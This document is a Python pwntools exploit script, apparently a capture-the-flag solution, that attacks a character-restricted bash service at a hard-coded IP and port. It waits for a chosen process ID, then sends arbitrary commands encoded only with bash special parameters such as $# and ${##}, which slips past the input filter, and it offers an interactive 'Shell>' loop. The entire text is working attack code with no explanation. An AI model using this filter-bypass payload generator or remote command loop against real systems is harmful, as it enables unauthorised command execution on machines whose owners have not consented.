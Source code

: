 ```python
from pwn import *

import sys

def send_cmd(cmd):
    r = remote("35.198.107.77", 1337)
    
    payload = build_payload(cmd)
    print("payload is: {}".format(payload.decode()))

    while nextpid(r) != 53:
        pass

    print("sending exploit")
    r.sendline(payload)
    r.interactive()

def nextpid(r):
    r.sendline(b"$$")
    r.readuntil(b"bash: ")
    pid = int(r.readuntil(b":")[:-1], 10)
    print("current pid: {}".format(pid))
    r.readline()
    return pid + 1

base_payload = rb"${!#}<<<${!#}\<\<\<${!#}\\\<\\\<\\\<${!#}\\\\\\\<\\\\\\\<\\\\\\\<\\\\\\\$\\\\\\\'"
base_payload_end = rb"\\\\\\\'"

def build_payload(string):
    bstr = string.encode()
    payload = base_payload
    for char in bstr:
        payload += encode_character(char)
    payload += base_payload_end
    return payload

def encode_character(byte):
    octals = "{:o}".format(byte)
    payload = rb"\\\\\\\\"
    for octal in octals:
        num = int(octal, 8)
        if num == 0:
            payload += rb"$#"
        elif num == 1:
            payload += rb"${##}"
        else:
            payload += rb"\\\$\\\(\\\(" 
            payload += rb"\$\'\\$$\'".join([rb"${##}" for i in range(num)])
            payload += rb"\\\)\\\)"
    return payload

while True:
    cmd = input("Shell> ")
    send_cmd(cmd)
```
